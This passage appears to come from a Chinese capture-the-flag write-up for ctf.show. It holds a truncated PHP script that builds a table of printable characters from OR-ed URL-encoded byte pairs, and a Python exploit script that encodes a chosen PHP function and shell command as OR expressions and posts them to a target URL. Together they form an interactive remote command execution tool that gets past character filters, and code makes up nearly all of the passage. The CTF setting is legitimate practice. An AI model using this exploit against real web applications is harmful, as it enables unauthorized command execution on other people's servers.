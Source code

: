 ```
    }
  
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

配合脚本

```
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```
